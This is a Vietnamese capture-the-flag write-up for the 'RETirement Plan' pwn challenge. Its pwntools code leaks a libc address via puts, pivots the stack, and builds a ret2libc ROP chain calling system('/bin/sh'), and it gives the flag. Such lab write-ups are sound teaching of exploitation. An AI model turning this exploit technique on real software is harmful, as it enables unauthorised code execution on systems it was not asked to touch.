




# RETirement Plan
## Challenge
[chall](../RETirement_Plan)
## Find vulnerabilities
- Đọc qua code ta thấy có 2 lỗ hổng buffer overflow và format string, kết hợp với việc đề bài cho chúng ta libc thì có thể nghĩ đến ret2libc


- Các chế độ bảo vệ đã được tắt


## Exploit
Bước 1: Leak libc address và tính libc_base
- Ta sẽ leak libc của hàm puts và kết hợp stack pivot để đưa stack của chương trình vào vùng nhớ ngoài, vậy mục đích của stack pivot là gì?
Để chúng ta nhảy lại vào hàm main và nhập dữ liệu chiếm shell
- Dùng ROPgadget để lấy pop_rdi bằng câu lệnh sau: `ROPgadget --binary shellcode | grep "pop rdi"`
- Ta thử overflow theo lý thuyết thì xuất hiện lỗi:
```python3
payload = b'a'*64 + p64(rw_section) + p64(pop_rdi) + p64(exe.got['puts']) + p64(exe.plt['puts']) + p64(exe.sym['main'] + 26)
p.sendlineafter(b'here>: \n', payload)
```


- Sửa lại payload:
```python3
payload = p64(rw_section)*9 + p64(pop_rdi) + p64(exe.got['puts']) + p64(exe.plt['puts']) + p64(exe.sym['main'] + 26)
p.sendlineafter(b'here>: \n', payload)
```
- Chương trình chạy được và leak libc cho chúng ta
```python3
libc_leak = p.recvline()[:-1]
libc_leak = int.from_bytes(libc_leak, "little")
print("Libc leak: " + hex(libc_leak))
libc.address = libc_leak - 0x6f6a0
print("Libc base: " + hex(libc.address))
```



Bước 2: Lấy shell chương trình
- Lúc này ta đã lấy được libc_base và chỉ việc lấy shell thôi
- Trước khi lấy shell thì chúng ta nên lấy ROPgadget pop_rdi của libc cho thuận tiện trong việc khai thác
```python3
pop_rdi = 0x0000000000021112 + libc.address
payload = p64(rw_section)*9 + p64(pop_rdi) + p64(next(libc.search(b'/bin/sh'))) + p64(libc.sym['system'])
p.sendline(payload)
```
## Payload 
[script](solve.py)
## Flag
```utflag{i_should_be_doing_ccdc_rn}```